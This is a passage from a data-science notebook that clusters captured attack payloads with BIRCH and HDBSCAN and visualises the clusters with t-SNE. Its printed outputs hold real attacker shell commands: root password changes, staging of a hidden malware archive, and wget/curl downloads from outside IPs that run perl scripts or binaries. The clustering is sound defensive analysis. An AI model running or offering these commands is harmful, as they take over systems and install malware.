sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend="full", 
    alpha=0.7, 
    s=70, 
    edgecolor='white',
    linewidth=0.5
)

#  legend outside the plot area to avoid overlaps
plt.legend(
    title="Attack Clusters",
    bbox_to_anchor=(1.02, 1), 
    loc='upper left', 
    borderaxespad=0,
    fontsize=10,
    ncol=1 
)

plt.title(f'BIRCH Attack Fingerprints (t-SNE Projection)\nTarget K={best_n}', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)

plt.tight_layout()
plt.savefig('tsne_clusters_birch_clean.png', dpi=300)
plt.show()

In [18]:
# trying HDBSCAN with hyperparameter tuning
import hdbscan
import numpy as np
import itertools

# tuning min_cluster_size, min_samples and cluster_selection_epsilon
param_grid = {
    'min_cluster_size': [500, 2000, 5000, 10000],
    'min_samples': [100, 500, 800],
    'cluster_selection_epsilon': [0.001, 0.01, 0.1]
}

combinations = list(itertools.product(*param_grid.values()))
results = []
print(f"Starting Grid Search across {len(combinations)} combinations...")
# using as metric clusterer.relative_validity_ (DBCV)

# subsampling for speed
eval_indices = np.random.choice(len(X_svd), size=10000, replace=False)
X_eval = X_svd[eval_indices]

for mcs, ms, cse in combinations:
    try:
        #  initialize and Fit
        clusterer = hdbscan.HDBSCAN(
            min_cluster_size=mcs,
            min_samples=ms,
            cluster_selection_epsilon=cse,
            core_dist_n_jobs=-1,
            prediction_data=True
        )
        cluster_labels = clusterer.fit_predict(X_svd)
        
        # calc Metric validity_index over X_eval
        validity = hdbscan.validity.validity_index(X_eval, cluster_labels[eval_indices])
        # actual number of clusters found
        
        n_clusters_found = len(set(cluster_labels)) - (1 if -1 in cluster_labels else 0)
        
        results.append({
            'min_cluster_size': mcs,
            'min_samples': ms,
            'cluster_selection_epsilon': cse,
            'n_clusters_found': n_clusters_found,
            'relative_validity': validity
        })
        print(f"Tested: MCS={mcs}, MS={ms}, CSE={cse} | Found: {n_clusters_found} | Validity: {validity:.4f}")
        
    except Exception as e:
        continue

# Convert to DataFrame for analysis
results_df = pd.DataFrame(results).sort_values(by='relative_validity', ascending=False)
print("\n--- Best HDBSCAN Configurations ---")
print(results_df.head(5))


Starting Grid Search across 36 combinations...
Tested: MCS=500, MS=100, CSE=0.001 | Found: 25 | Validity: -0.0284
Tested: MCS=500, MS=100, CSE=0.01 | Found: 16 | Validity: -0.0403
Tested: MCS=500, MS=100, CSE=0.1 | Found: 6 | Validity: 0.5617
Tested: MCS=500, MS=500, CSE=0.001 | Found: 22 | Validity: -0.2794
Tested: MCS=500, MS=500, CSE=0.01 | Found: 13 | Validity: -0.0388
Tested: MCS=500, MS=500, CSE=0.1 | Found: 7 | Validity: 0.8259
Tested: MCS=500, MS=800, CSE=0.001 | Found: 14 | Validity: 0.3211
Tested: MCS=500, MS=800, CSE=0.01 | Found: 8 | Validity: 0.5188
Tested: MCS=500, MS=800, CSE=0.1 | Found: 5 | Validity: 0.8211
Tested: MCS=2000, MS=100, CSE=0.001 | Found: 10 | Validity: -0.1601
Tested: MCS=2000, MS=100, CSE=0.01 | Found: 8 | Validity: -0.0624
Tested: MCS=2000, MS=100, CSE=0.1 | Found: 4 | Validity: 0.5568
Tested: MCS=2000, MS=500, CSE=0.001 | Found: 11 | Validity: -0.3874
Tested: MCS=2000, MS=500, CSE=0.01 | Found: 8 | Validity: -0.0484
Tested: MCS=2000, MS=500, CSE=0.1 | 

In [19]:
import hdbscan
import numpy as np

# 1. Initialize with 'prediction_data=True'
# We use Boruvka (default) for maximum speed
clusterer = hdbscan.HDBSCAN(
    min_cluster_size=500, 
    min_samples=500, 
    prediction_data=True, # Enables approximate_predict
    cluster_selection_epsilon= 0.1,
    core_dist_n_jobs=-1   # Uses all CPU cores for distance math
)

# 2. Fit on the full data (Boruvka should handle 190k much better)
cl_labels = clusterer.fit_predict(X_svd)

/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/matplotlib/transforms.py:2437: RuntimeWarning: invalid value encountered in dot
  return Affine2D(np.dot(self._b.get_affine().get_matrix(),
/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/hdbscan/plots.py:363: UserWarning: Infinite lambda values encountered in chosen clusters. This might be due to duplicates in the data.
  warn('Infinite lambda values encountered in chosen clusters.'




In [20]:
# analyzing the results
import matplotlib.pyplot as plt
plt.figure(figsize=(10,6))
clusterer.condensed_tree_.plot(select_clusters=True, selection_palette=sns.color_palette())
plt.show()

In [24]:
# printing cluster details
import pandas as pd
import random
# Remove the truncation on long strings
pd.set_option('display.max_colwidth', None)
# printing to stdout samples from each cluster
n_clusters = len(set(cl_labels)) - (1 if -1 in cl_labels else 0)
print(f"Number of clusters found by HDBSCAN: {n_clusters}")
newDataSet['cluster'] = cl_labels
for i in range(n_clusters):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # taking 10 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(10, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")

Number of clusters found by HDBSCAN: 7

--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo "root:5ul1L2l3VZID" | chpasswd | bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "root root#1234" > /tmp/up.txt ; rm -rf /var/tmp/dota* ; cat /var/tmp/.systemcache436621 ; echo "1" > /var/tmp/.systemcache436621 ; cat /var/tmp/.systemcache436621 ; sleep 15s && cd /var/tmp ; echo "#!/bin/bash
cd /tmp	
rm -rf .ssh
rm -rf .mountfs
rm -rf .X13-unix
rm -rf .X17-unix
mkdir .X17-unix
cd .X17-unix
mv /var/tmp/dota.tar.gz dota.tar.gz
tar xf dota.tar.gz
sleep 3s && cd /tmp/.X17-unix/.rsync/c
nohup /tmp/.X1

/tmp/ipykernel_79688/3590232709.py:19: UserWarning: The palette list has more values (15) than needed (8), which may not be intended.
  sns.scatterplot(




In [23]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# displaying clusters with t-SNE
sample_size = min(5000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)
X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)
# visualizaton
plt.figure(figsize=(12, 8))
palette = sns.color_palette("tab20", 15)
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend='full',  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

plt.legend(
    title="Attack Clusters",
    bbox_to_anchor=(1.02, 1), 
    loc='upper left', 
    borderaxespad=0,
    fontsize=10,
    ncol=1 
)

plt.title('HDBSCAN - t-SNE View of Attack Clusters', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_hdbscan.png')
plt.show()

In [25]:
# printing some isolated outliers
outliers = newDataSet[newDataSet['cluster'] == -1]
print(f"Number of outliers detected by HDBSCAN: {len(outliers)}")
print("Some outlier payload samples:")
num_samples = min(20, len(outliers))
samples = random.sample(list(outliers['decoded_payload']), num_samples)
print(*samples, sep="\n---\n")


Number of outliers detected by HDBSCAN: 326
Some outlier payload samples:
cd /tmp ; wget http://201.22.182.141/read.txt -q ; curl -O http://201.22.182.141/read.txt --silent ; perl read.txt ; rm -rf read.txt* ; id ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo -e "sshadmin\n2zEC81WwOSgm\n2zEC81WwOSgm" | passwd | bash ; echo "sshadmin\n2zEC81WwOSgm\n2zEC81WwOSgm\n" | passwd ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo -e "PaSsWoRd\nm2aXCBnkilcA\nm2aXCBnkilcA" | passwd | bash ; echo "PaSsWoRd\nm2aXCBnkilcA\nm2aXCBnkilcA\n" | passwd ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo "root:lKUPLgPQkLJ7" | chpasswd | bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ;
---
cd /tmp ; wget http://177.157.91.137/read.txt -q ; curl -O http://177.157.91.137/read.txt --silent ; perl read.txt ; rm -rf read.txt* ; id ;
---
wget http://91.209.70.174/Corona.x86_64 ; chmod 777 * ; ./Corona.x86_64 ; rm -rf * ;
---
/bin/busybox F2kOF